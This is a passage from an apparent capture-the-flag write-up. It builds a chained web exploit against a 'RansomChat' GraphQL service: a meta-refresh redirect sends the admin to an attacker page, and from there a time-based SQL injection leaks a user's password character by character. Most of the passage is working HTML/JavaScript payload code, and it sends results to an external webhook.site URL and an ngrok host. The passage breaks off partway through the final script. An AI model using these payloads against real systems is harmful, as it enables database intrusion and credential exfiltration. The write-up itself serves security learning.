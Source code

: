 We are now finally ready to construct the payload. In summary, we use meta-refresh to redirect to your site and bypass CSP, coerce the admin to `GET /graphql` to bypass CORS preflight, use the timing side channel from the SQL injection to XS-leak out the flag.

To first invoke the timing side channel, we use a simpler payload of just sleeping [(XS-leak payload from here)](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#modern-web-timing-attacks):

```html
<html>
    <body>
        <script>
        var start = performance.now()
        fetch(`http://127.0.0.1:1337/graphql?query=query {RansomChat(enc_id:"1f81b076-fffc-45cd-b7c3-c686b73aa6af' AND sleep(5)%3d'1"){id}}`, 
        {
            mode: "no-cors"
        }
        ).then(() => {
            var time = performance.now() - start;
            fetch("https://webhook.site/6f47c639-ce29-4635-bcc9-c33ebf316fba?time=" +"The+request+took+%d+ms."+time);
        }).catch((error) => {
            fetch("https://webhook.site/6f47c639-ce29-4635-bcc9-c33ebf316fba?error=" + error);
        })
        </script>
    </body>
</html>
```

POC to send to admin:
```html
<meta http-equiv="refresh" content="0; url=https://64e41bcd2960.ap.ngrok.io/abc.html">
```

This works and we get our response back after 5 seconds on our webhook!

We now modify the payload to loop through all guesses and all indices of the password, and only send back guesses which are correct to our webhook (i.e. after 4 seconds). Note that we aren't using `fetch` here anymore because it's asynchronous and I couldn't figure out how to make it synchronous. If multiple asynchronous `fetch` requests with `SLEEP` are made, because the `mysqld` is a single process, the `SLEEP` affects all other connections as well, thus influencing results, hence we need it to be synchronous to ease processing the results later. With the payload below, we get our flag!

POC to send to admin:
```html
<meta http-equiv="refresh" content="0; url=https://64e41bcd2960.ap.ngrok.io/abc.html">
```

abc.html:

```html
<html>
    <body>
        <script>
        function inject(index, guess) {
            var start = performance.now()
            try {
                var request = new XMLHttpRequest();
                request.open('GET', `http://127.0.0.1:1337/graphql?query=query {RansomChat(enc_id:"1f81b076-fffc-45cd-b7c3-c686b73aa6af' AND IF(ASCII((SELECT SUBSTRING(password,${index},1) from users where username%3d'burns'))%3dASCII('${guess}'), SLEEP(4), 0)%3d'1"){id}}`, false);  // `false` makes the request synchronous
                request.send(null);
            } catch (error) {

            }
            var time = performance.now() - start;
            if (time > 3000) {
```